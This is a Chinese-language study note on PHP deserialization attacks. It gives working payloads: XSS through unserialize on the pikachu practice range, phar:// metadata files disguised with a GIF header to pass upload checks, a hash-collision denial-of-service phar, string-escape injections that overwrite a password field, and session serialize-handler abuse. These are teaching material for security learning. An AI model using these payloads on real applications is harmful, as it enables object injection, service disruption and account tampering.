





# PHP反序列化

---

**相关文章 & Source & Reference**
- [Web安全 | PHP反序列化入门这一篇就够了](https://mp.weixin.qq.com/s/HvyRjbLVPaMg7DBfdYmdJw)
- [php反序列化练习题](https://www.cnblogs.com/th0r/p/14152102.html)
- [php反序列化知识点总结](https://www.cnblogs.com/th0r/p/14071894.html)

**相关工具**
- [php 在线反序列化工具](https://www.w3cschool.cn/tools/index?name=unserialize)

---

PHP 对不同类型的数据用不同的字母进行标示
```
a - array
b - boolean
d - double
i - integer
o - common object
r - reference
s - string
C - custom object
O - class
N - null
R - pointer reference
U - unicode string
```

---

## 什么是序列化

php 中, 使用函数 `serialize()` 来返回一个包含字节流的字符串来表示

比如:
```php
class S{
public $test="sd";
}

$s=new S(); //创建一个对象
serialize($s); //把这个对象进行序列化
```

序列化的结果是:
```
O:1:"S":1:{s:4:"test";s:2:"sd";}
```

代表的含义依次是:
```
O:代表object
1:代表对象名字长度为一个字符

S:对象的名称
1:代表对象里面有一个变量

s:数据类型(string)
4:变量名称的长度
test:变量名称

s:数据类型
2:变量值的长度
sd:变量值
```

反序列化就是把被序列化的字符串还原为对象,然后在接下来的代码中继续使用。

使用unserialize()函数
```php
$u=unserialize("O:1:"S":1:{s:4:"test";s:2:"sd";}");
echo $u->test; //得到的结果为sd
```

序列化和反序列化本身没有问题,但是如果反序列化的内容是用户可以控制的,且后台不正当的使用了PHP中的魔法函数,就会导致安全问题

**案例**

以 pikachu 靶场为例

输入:
```
O:1:"S":1:{s:4:"test";s:2:"sd";}
# 显示 sd

O:1:"S":1:{s:4:"test";s:30:"<script>alert('test')</script>";}
# 显示 <script>alert('test')</script>
```

查看源码
```php
class S{
    var $test = "pikachu";
    function __construct(){
        echo $this->test;
    }
}

//O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}
$html='';
if(isset($_POST['o'])){
    $s = $_POST['o'];
    if(!@$unser = unserialize($s)){
        $html.="<p>大兄弟,来点劲爆点儿的!</p>";
    }else{
        $html.="<p>{$unser->test}</p>";
    }

}
```

从源码可以看到反序列化的变量是 post 请求的, post 请求变量名为 o, 通过抓包发现我们输入框输入的值, 正好赋值给 Post 变量 o



然后源码中实现了 `unserialize()` 函数,进行了反序列化,同时,S 类中的 `__construct()` 函数被调用。

最后没有对传参进行过滤，否则无法构成目的 Payload。

实战中要更具情况来构造 payload, 能利用的漏洞也远不止 xss,我们可以利用 `phar://` 协议触发反序列化,前提是完全可控的文件名。

---

## phar://伪协议

**基础知识**

- [伪协议](./伪协议.md#phar://)

**相关文章**
- [blackhat议题深入 | phar反序列化](https://cloud.tencent.com/developer/article/1350367)

**案例**

根据 phar 文件结构我们来自己构建一个 phar 文件，php 内置了一个 Phar 类来处理相关操作。

```php
<?php
    class TestObject {
    }

    @unlink("test.phar");
    $phar = new Phar("test.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $o -> data='abc';
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

注意：要将 php.ini 中的 phar.readonly 选项设置为 Off，否则无法生成 phar 文件

访问该 php 页面, 会在文件当前目录下生成一个 phar 文件



很明显的序列化特征，TestObject 这个类已经以序列化形式储存



### 直接利用

* 有可利用函数
* 有可直接利用的魔法方法或pop链
* 函数参数可控，并且可以输入特殊字符 :、/、phar

```php
<?php
class Test{
	public function __destruct() {
		echo 'i am __destruct(): ';
		echo $this->data.'</br>';
	}
}
include('phar://test.phar');
?>
```

### 绕过幻术头检测

phar 在设计时, 只要求前缀为 `__HALT_COMPILER();` 而后缀或者内容并未设限, 可以构造文件绕过上传

```php
<?php
    class TestObject {
    }

    @unlink("sd.phar");
    $phar = new Phar("sd.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a","<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
    $o = new TestObject();
    $o->data='sd!';
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

```php
<?php
include('phar://sd.gif');
class TestObject {
    function __destruct()
{
        echo $this->data;
    }
}
?>
```

成功将 meta-data 中 data 数据反序列化出来



### 哈希表碰撞攻击

在 PHP 内核中，数组是以哈希表的方式实现的，攻击者可以通过巧妙的构造数组元素的 key 使哈希表退化成单链表（时间复杂度从 O(1) => O(n)）来触发拒绝服务攻击。

构造一串恶意的 serialize 数据（能够触发哈希表拒绝服务攻击），然后将其保存到 phar 文件的 metadata 数据区，当文件操作函数通过 phar:// 协议对其进行操作的时候就会触发拒绝服务攻击漏洞。

```php
<?php
    set_time_limit(0);
    $size= pow(2, 16);
    $array = array();
    for ($key = 0, $maxKey = ($size - 1) * $size; $key <= $maxKey; $key += $size) {
        $array[$key] = 0;
    }
    $new_obj = new stdClass;
    $new_obj->hacker = $array;
    $p = new Phar(__DIR__ . '/avatar.phar', 0);
    $p['hacker.php'] = '<?php ?>';
    $p->setMetadata($new_obj);
    $p->setStub('GIF<?php __HALT_COMPILER();?>');
?>
```

---

## 反序列化字符逃逸

```php
<?php
	class person{
		public $name = 'Bob';
		public $age = 18;
	}

	$P = new person();
	$s = serialize($P);
	echo $s.'</br>';
	var_dump(unserialize($s));
	$s_1 = $s.'abcd';
	echo '</br>'.$s_1.'</br>';
	var_dump(unserialize($s_1));
?>
```
```
O:6:"person":2:{s:4:"name";s:3:"Bob";s:3:"age";i:18;}
object(person)#2 (2) { ["name"]=> string(3) "Bob" ["age"]=> int(18) }
O:6:"person":2:{s:4:"name";s:3:"Bob";s:3:"age";i:18;}abcd
object(person)#2 (2) { ["name"]=> string(3) "Bob" ["age"]=> int(18) }
```

在序列化后的字符串后面加任意字符并不影响反序列化后的输出

在反序列化时，底层代码是以 `;` 作为字段的分隔，以 `}` 作为结尾(字符串除外)，并且是根据长度判断内容的 ，同时反序列化的过程中必须严格按照序列化规则才能成功实现反序列化 。

```php
<?php
	class person{
		public $name = 'Bob';
		public $age = 18;
	}

	$P = new person();
	$s = serialize($P);
	echo $s.'</br>';
	$s = 'O:6:"person":2:{s:5:"name";s:3:"Bob";s:3:"age";i:18;}';
	unserialize($s);
?>
```
```
输出：
O:6:"person":2:{s:4:"name";s:3:"Bob";s:3:"age";i:18;}

Notice: unserialize(): Error at offset 26 of 53 bytes in /serialize.php on line 11
```

当长度与字符实际长度不符 会报错

```php
<?php
	class person{
		public $name = 'Bob';
		public $age = 18;
	}

	$P = new person();
	$s = serialize($P);
	echo $s.'</br>';
	$s = 'O:6:"person":3:{s:4:"name";s:3:"Bob";s:3:"age";i:18;s:6:"height";i:180;}';
	var_dump(unserialize($s));
?>
```
```
O:6:"person":2:{s:4:"name";s:3:"Bob";s:3:"age";i:18;}
object(person)#2 (3) { ["name"]=> string(3) "Bob" ["age"]=> int(18) ["height"]=> int(180) }
```

可以反序列化类中不存在的元素

### 字符串变长

```php
<?php
function filter($str){
    return str_replace('x', 'yy', $str);
}
class A{
    public $name='Bob';
    public $pass='123';
}
	$a=new A();
	$s = serialize($a);
	echo $s;

	$res=filter($s);
	echo '</br>after filter:</br>';
	echo $res;

	$c=unserialize($res);
	echo '</br>';
	echo $c->pass;
?>
```

```
O:1:"A":2:{s:4:"name";s:3:"Bob";s:4:"pass";s:3:"123";}
after filter:
O:1:"A":2:{s:4:"name";s:3:"Bob";s:4:"pass";s:3:"123";}
123
```

以上代码限制了输入的内容 当输入 x 时会替换为 yy 若被替换则会出现报错,因为长度与字符实际长度不符

```php
<?php
function filter($str){
    return str_replace('x', 'yy', $str);
}
class A{
    public $name='Bobx';
    public $pass='123';
}
	$a=new A();
	$s = serialize($a);
	echo $s;

	$res=filter($s);
	echo '</br>after filter:</br>';
	echo $res;

	$c=unserialize($res);
	echo '</br>';
	echo $c->pass;
?>
```
```
O:1:"A":2:{s:4:"name";s:4:"Bobx";s:4:"pass";s:3:"123";}
after filter:
O:1:"A":2:{s:4:"name";s:4:"Bobyy";s:4:"pass";s:3:"123";}
Notice: unserialize(): Error at offset 31 of 56 bytes in \out.php on line 17
```

在只能修改 name 值的情况下,要将 pass 改为 456 则需要构造 `";s:4:"pass";s:3:"456";}` 其中有 24 个字符

由于在 `}` 以后的字符都不会影响反序列化, 所以可以填充内容在 `}` 之后

x 变为 yy 为原来的 2 倍长度 因此我们构造的 playload x 的数量应该为 24 当他变为原来的两倍 时 正好与没加倍时 name 的长度相同 便可以在后面构造 pass 的值

相应 payload
```
xxxxxxxxxxxxxxxxxxxxxxxx";s:4:"pass";s:3:"456";}
```

```php
<?php
function filter($str){
    return str_replace('x', 'yy', $str);
}
class A{
    public $name='xxxxxxxxxxxxxxxxxxxxxxxx";s:4:"pass";s:3:"456";}';
    public $pass='123';
}
$a=new A();
$s = serialize($a);
echo $s;
$res=filter($s);
echo '</br>after filter:</br>';
echo $res;
$c=unserialize($res);
echo $c->pass;

?>
```
```
O:1:"A":2:{s:4:"name";s:48:"xxxxxxxxxxxxxxxxxxxxxxxx";s:4:"pass";s:3:"456";}";s:4:"pass";s:3:"123";}
after filter:
O:1:"A":2:{s:4:"name";s:48:"yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy";s:4:"pass";s:3:"456";}";s:4:"pass";s:3:"123";}
456
```

### 字符串变短

```php
<?php
function filter($str){
    return str_replace('test', '', $str);
}
class A{
    public $name='Bob';
	public $user='bob';
    public $pass='123';
}
	$a=new A();
	$s = serialize($a);
	echo $s;
	$res=filter($s);
	echo '</br>after filter:</br>';
	echo $res;
	$c=unserialize($res);
	echo '</br>';
	echo $c->pass;
?>
```
```
O:1:"A":3:{s:4:"name";s:3:"Bob";s:4:"user";s:3:"bob";s:4:"pass";s:3:"123";}
after filter:
O:1:"A":3:{s:4:"name";s:3:"Bob";s:4:"user";s:3:"bob";s:4:"pass";s:3:"123";}
123
```

这里将 test 替换为空,

```php
<?php
function filter($str){
    return str_replace('test', '', $str);
}
class A{
    public $name='test';
	public $user='bob';
    public $pass='123';
}
	$a=new A();
	$s = serialize($a);
	echo $s;
	$res=filter($s);
	echo '</br>after filter:</br>';
	echo $res;
	$c=unserialize($res);
	echo '</br>';
	echo $c->pass;
?>
```

```
O:1:"A":3:{s:4:"name";s:4:"test";s:4:"user";s:3:"bob";s:4:"pass";s:3:"123";}
after filter:
O:1:"A":3:{s:4:"name";s:4:"";s:4:"user";s:3:"bob";s:4:"pass";s:3:"123";}
Notice: unserialize(): Error at offset 31 of 72 bytes in \out_1.php on line 18
```

name 的内容为空 但是大小为 4

相当于我们要闭合掉 `";s:4:"user";s:3:"` 的内容

同样的,当仅 name 和 user 的值可控的情况下,需要通过 `";` 来构造闭合

相应 payload
```php
public $name='testtesttesttesttest';
public $user='a";s:4:"user";s:3:"bob";s:4:"pass";s:3:"456";}';
```

```php
<?php
function filter($str){
    return str_replace('test', '', $str);
}
class A{
    public $name='testtesttesttesttest';
	public $user='a";s:4:"user";s:3:"bob";s:4:"pass";s:3:"456";}';
    public $pass='123';
}
	$a=new A();
	$s = serialize($a);
	echo $s;
	$res=filter($s);
	echo '</br>after filter:</br>';
	echo $res;
	$c=unserialize($res);
	echo '</br>';
	echo $c->pass;
?>
```

```
O:1:"A":3:{s:4:"name";s:20:"testtesttesttesttest";s:4:"user";s:46:"a";s:4:"user";s:3:"bob";s:4:"pass";s:3:"456";}";s:4:"pass";s:3:"123";}
after filter:
O:1:"A":3:{s:4:"name";s:20:"";s:4:"user";s:46:"a";s:4:"user";s:3:"bob";s:4:"pass";s:3:"456";}";s:4:"pass";s:3:"123";}
456
```

---

## session反序列化

### 关于session

**session_start()**

当会话自动开始或者通过 `session_start()` 手动开始的时候，PHP 内部会依据客户端传来的 PHPSESSID 来获取现有的对应的会话数据（即 session 文件）， PHP 会自动反序列化 session 文件的内容，并将之填充到 `$_SESSION` 超级全局变量中。如果不存在对应的会话数据，则创建名为 `sess_PHPSESSID`(客户端传来的) 的文件。如果客户端未发送 PHPSESSID，则创建一个由 32 个字母组成的 PHPSESSID，并返回 set-cookie。

**存储机制**

php 中的 session 以文件的方式来存储的，存储方式就是由配置项 `session.save_handler` 来确定，默认是以文件的方式存储。

存储的文件是以 `sess_sessionid` 来进行命名的，文件的内容就是 session 值的序列话后的内容。

### 不同序列化处理器

**session.serialize_handler**

session.serialize_handler 定义用来序列化／解序列化的处理器名字。 当前支持 PHP 序列化格式 (名为 php_serialize)、 PHP PHP 内部格式 (名为 php 及 php_binary) 和 WDDX (名为 wddx)。

自 PHP 5.5.4 起可以使用 php_serialize。 php_serialize 在内部简单地直接使用 serialize/unserialize 函数，并且不会有 php 和 php_binary 所具有的限制。
```php
<?php
	//ini_set('session.serialize_handler', 'php');
	//ini_set("session.serialize_handler", "php_serialize");
	//ini_set("session.serialize_handler", "php_binary");
	session_start();
	$_SESSION['edd1e'] = $_GET['a'];
	var_dump($_SESSION);
?>
```

查看不同类型下序列化的字符串
```
php:            edd1e|s:3:"abc";
php_binary:     edd1es:3:"abc";
php_serialize:  a:1:{s:5:"edd1e";s:3:"abc";}
```

### session反序列化利用

Session 的实现没有问题，但 Session 序列化引擎配置使用不当就会造成利用

以 php_serialize 格式来存储，用 php 机制来读取

**存储session**

```php
# session.php

<?php
	ini_set("session.serialize_handler", "php_serialize");
	session_start();
	$_SESSION['edd1e'] = $_GET['a'];
	var_dump($_SESSION);
?>
```

**读取session**

```php
# session_read.php

<?php
	ini_set("session.serialize_handler", "php");
	session_start();
	class test {
		public $data;
		function __wakeup(){
			echo $this->data;
		}
	}
?>
```

**生成playload**

```php
<?php
	class test {
		public $data = 'hack';
	}
	$o = new test();
	echo serialize($o);
?>

O:4:"test":1:{s:4:"data";s:4:"hack";}
```

将 playload 前面加上 `|` 输入到 session 里
```
/session.php?a=|O:4:"test":1:{s:4:"data";s:4:"hack";}
```

```php
array(1) {
  ["edd1e"]=>
  string(38) "|O:4:"test":1:{s:4:"data";s:4:"hack";}"
}
```

打开读取 session 页面输出构造的内容



在 php 模式下 格式为键名＋竖线＋经过 serialize0 函数反序列处理的值

储存的 session 字符串为
```
a:1:{s:5:"edd1e";s:38:"|O:4:"test":1:{s:4:"data";s:4:"hack";}
```

反序列化的就是后面的字符串,所以成功输出

---

## POP

- [POP](./POP.md)
